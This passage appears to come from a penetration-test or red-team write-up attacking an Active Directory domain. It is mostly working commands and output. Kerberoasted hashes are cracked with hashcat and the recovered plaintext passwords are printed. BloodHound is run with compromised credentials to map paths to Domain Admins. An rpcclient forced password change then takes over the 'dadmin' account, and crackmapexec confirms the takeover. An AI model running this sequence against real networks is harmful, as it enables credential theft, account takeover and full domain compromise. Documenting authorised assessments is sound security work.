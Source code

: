 **Hash Cracking:**

```bash
# Crack sql_service ticket
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# Results:
# sql_service: SQLSvc#2024!Backup (matched credentials from file share)
# backup_admin: BackupPass2023! (previously obtained via ASREPRoasting)
```

**BloodHound Analysis:**

```bash
# Collect domain data with compromised credentials
bloodhound-python -u jthompson -p 'Summer2024!' -d corp.vanguardfs.local -dc VFS-DC-02.corp.vanguardfs.local -c All -ns 10.50.2.11

# Start Neo4j and BloodHound
neo4j start
bloodhound
```

**BloodHound Findings:**

1. **Path to Domain Admin (3 hops):**
```
jthompson (Domain User)
   ↓ [MemberOf]
HR_Managers (Group)
   ↓ [GenericAll]
IT_Administrators (Group)
   ↓ [MemberOf]
Domain Admins
```

2. **ACL Exploitation Opportunities:**
   - `sql_service` has **WriteDacl** permission on "Server Admins" group
   - "Server Admins" group has **GenericAll** on VFS-DC-01
   - mrodriguez has **ForceChangePassword** on user `dadmin`

3. **Shortest Path Analysis:**
   - mrodriguez → dadmin (ForceChangePassword) → Domain Admins (1 hop)

**Exploitation: Force Password Change**

```bash
# Using mrodriguez credentials to change dadmin password
rpcclient -U "mrodriguez%ITAdmin@2024!" 10.50.2.11
rpcclient $> setuserinfo2 dadmin 23 'NewComplex!Pass2024'

# Verify new password works
crackmapexec smb 10.50.2.11 -u dadmin -p 'NewComplex!Pass2024'

# Check group membership
crackmapexec smb 10.50.2.11 -u dadmin -p 'NewComplex!Pass2024' --groups
```
